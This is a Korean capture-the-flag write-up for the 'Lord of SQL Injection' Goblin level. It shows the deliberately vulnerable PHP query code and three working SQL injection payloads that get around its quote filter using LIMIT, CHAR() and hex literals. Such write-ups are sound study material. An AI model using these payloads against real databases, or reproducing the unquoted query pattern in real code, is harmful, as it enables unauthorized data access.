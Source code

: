 # Lord of SQL Injection No.3 - Goblin
## 문제 출제 의도
1. UNION 구문 없이 SQL Injection이 가능한지 확인.
2. '(single quote),"(quote),`(grave accent)없이 WHERE 구문의 조작이 가능한지 확인.
## 소스 코드
~~~
<?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
    if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
    $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    if($result['id'] == 'admin') solve("goblin");
    highlight_file(__FILE__); 
?>
~~~
## 분석 결론
+ 금지 문자, 문자열
    - GET방식으로 입력받은 no값에 prob _ . () 중 하나라도 있다면 "No Hack ~_~"이 출력되고 문제 풀이에 실패한다.
    - GET방식으로 입력받은 no값에 '(single quote),"(quote),`(grave accent) 중 하나라도 있다면 "No Quotes ~_~ "이 출력되고 문제 풀이에 실패한다.
## 문제 해결
1. limit 구문 이용
    - Select문에 LIMIT을 사용하여 select 결과를 제한 할 수 있다.
    - limit 구문은 다음과 같은 형식을 취한다.
    ~~~
    limit 시작인덱스, 개수
    ~~~
    - a번 인덱스 쿼리부터 b개 만큼 출력하겠다는 의미이다.
    - 갯수를 1로 고정하고, 시작인덱스를 1로 늘려가며 admin값을 찾을 수 있다.
    - 다음과 유사한 방법으로 admin을 찾을 수 있다.
    ~~~
    ?no=1 or 1 limit 1,1 -- -
    ~~~
2. ascii 코드이용
    - URL에 CHAR 함수를 통해 ASCII값으로 문자를 입력할수있다.
    - 문자를 문자열로 만들때는 사이에 ,를 넣어 연결한다.
    - 다음과 유사한 방법으로 id에 admin값을 입력할 수 있다.
    ~~~
    ?no=0 or id=char(97,100,109,105,110) -- -
    ~~~
    - no 값을 1을 준다면 앞 query의 id=guest도 WHERE 조건절 안에 포함이 되어 문제 풀이에 실패한다.
3. Hex코드 이용
    - 0x다음에16진수를 입력하여 ascii 코드를 입력 가능하다.
    - 다음과 유사한 방법으로 id에 admin값을 입력할 수 있다.
    ~~~
    ?no=0 or id=0x61646D696E -- -
    ~~~